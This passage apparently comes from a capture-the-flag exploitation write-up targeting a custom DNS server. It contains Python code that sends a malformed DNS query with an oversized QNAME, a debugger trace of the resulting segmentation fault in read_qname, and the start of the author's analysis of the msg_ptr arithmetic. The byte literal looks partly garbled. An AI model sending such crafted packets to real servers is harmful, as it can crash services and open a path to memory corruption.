 ```
    NSCOUNT = b"\x00\x00"
    ARCOUNT = b"\x00\x00"

    HEADER = ID + FLAGS + QDCOUNT + ANCOUNT + NSCOUNT + ARCOUNT

    QNAME = b"\xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff\xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff\x00"
    QTYPE = b"\x00\x01"
    QCLASS = b"\x00\x01"

    QUESTION = QNAME + QTYPE + QCLASS

    PACKET = HEADER + QUESTION

    conn.send(PACKET)
```

We see something pretty weird:

```
──────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555555a67 <read_qname+257> add    rax, rdx
   0x555555555a6a <read_qname+260> mov    WORD PTR [rax], 0x2e
   0x555555555a6f <read_qname+265> mov    rax, QWORD PTR [rbp-0x10]
 → 0x555555555a73 <read_qname+269> movzx  eax, BYTE PTR [rax]
   0x555555555a76 <read_qname+272> test   al, al
   0x555555555a78 <read_qname+274> jne    0x5555555559a1 <read_qname+59>
   0x555555555a7e <read_qname+280> cmp    DWORD PTR [rbp-0x14], 0x0
   0x555555555a82 <read_qname+284> je     0x555555555a8e <read_qname+296>
   0x555555555a84 <read_qname+286> mov    rax, QWORD PTR [rbp-0x8]
──────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "dns_server", stopped 0x555555555a73 in read_qname (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555a73 → read_qname()
[#1] 0x555555555ca9 → read_questions()
[#2] 0x555555556016 → read_packet()
[#3] 0x555555556b48 → process_query()
[#4] 0x5555555558ab → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $rax
$1 = 0x8000000019e6
```

The address it is trying to dereference is clearly not even close to a valid address. So to figure out why this is. Now this value represents the `msg_ptr` value. Looking at the code, there is a line where msg_ptr gets incremented with `msg_ptr += len;` and `msg_ptr = packet_start + offset;`. Since this seems like the biggest increment in that value, I decided to check that first in a debugger (this will be the `msg_ptr = packet_start + offset;` line):
